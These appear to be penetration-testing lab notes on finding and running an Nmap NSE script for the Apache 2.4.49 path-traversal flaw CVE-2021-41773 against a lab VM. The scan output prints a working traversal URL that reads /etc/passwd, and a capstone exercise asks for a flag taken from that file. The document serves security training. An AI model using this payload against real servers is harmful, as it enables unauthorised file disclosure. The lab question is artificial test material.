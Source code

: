 # Working with NSE Scripts

Searching for an NSE script for a specific CVE in Google
>``` shell
>Google Search: CVE-2021-41773 nse
>```

Copy the NSE Script and update the script.db database
>``` shell
>kali@kali:~$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
>
>kali@kali:~$ sudo nmap --script-updatedb
>
># ========== Expected Result ==========
>[sudo] password for kali: 
>Starting Nmap 7.92 ( https://nmap.org )
>NSE: Updating rule database.
>NSE: Script Database updated successfully.
>Nmap done: 0 IP addresses (0 hosts up) scanned in 0.54 seconds
># =====================================
>```

CVE-2021-41773 NSE Script
>``` shell
>kali@kali:~$ sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
>
># ========== Expected Result ==========
>Starting Nmap 7.92 ( https://nmap.org )
>Host is up (0.00069s latency).
>
>PORT    STATE SERVICE VERSION
>443/tcp open  http    Apache httpd 2.4.49 ((Unix))
>| http-vuln-cve2021-41773:
>|   VULNERABLE:
>|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
>|     State: VULNERABLE
>|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not >protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier >versions.
>|           
>|     Disclosure date: 2021-10-05
>|     Check results:
>|       
>|         Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>...
>Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
># =====================================
>```

Lab 1 - Capstone Labs: Follow the steps above to perform the vulnerability scan with the custom NSE script on VM #1. Copy the link from the script output after Verify arbitrary file read: and use it as a parameter for curl. This will retrieve the content of /etc/passwd of the target machine and display it. Be aware that you need to use http instead of https while keeping port 443 when you paste the link. Embed the last username of the file in the braces of "OS{}" and provide it as the answer to this exercise.
>``` shell
>
>```
